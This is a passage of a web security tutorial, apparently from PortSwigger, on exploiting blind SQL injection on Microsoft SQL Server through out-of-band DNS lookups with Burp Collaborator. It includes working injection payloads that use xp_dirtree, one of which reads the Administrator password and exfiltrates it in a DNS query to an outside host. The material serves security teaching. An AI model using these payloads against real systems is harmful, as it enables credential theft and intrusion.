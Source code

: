 ## **Exploiting blind SQL injection using out-of-band ([OAST](https://portswigger.net/burp/application-security-testing/oast)) techniques**

Now, suppose that the application carries out the same SQL query, but does it asynchronously. The application continues processing the user's request in the original thread, and uses another thread to execute a SQL query using the tracking cookie. The query is still vulnerable to SQL injection, however none of the techniques described so far will work: the application's response doesn't depend on whether the query returns any data, or on whether a database error occurs, or on the time taken to execute the query.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control. As previously, these can be triggered conditionally, depending on an injected condition, to infer information one bit at a time. But more powerfully, data can be exfiltrated directly within the network interaction itself.

A variety of network protocols can be used for this purpose, but typically the most effective is DNS (domain name service). This is because very many production networks allow free egress of DNS queries, because they are essential for the normal operation of production systems.

The easiest and most reliable way to use out-of-band techniques is using [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator). This is a server that provides custom implementations of various network services (including DNS), and allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application. Support for Burp Collaborator is built in to [Burp Suite Professional](https://portswigger.net/burp/pro) with no configuration required.

The techniques for triggering a DNS query are highly specific to the type of database being used. On Microsoft SQL Server, input like the following can be used to cause a DNS lookup on a specified domain:

```
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

This will cause the database to perform a lookup for the following domain:

```
0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net
```

You can use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to generate a unique subdomain and poll the Collaborator server to confirm when any DNS lookups occur.

Having confirmed a way to trigger out-of-band interactions, you can then use the out-of-band channel to exfiltrate data from the vulnerable application. For example:

```
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```

This input reads the password for the `Administrator` user, appends a unique Collaborator subdomain, and triggers a DNS lookup. This will result in a DNS lookup like the following, allowing you to view the captured password:

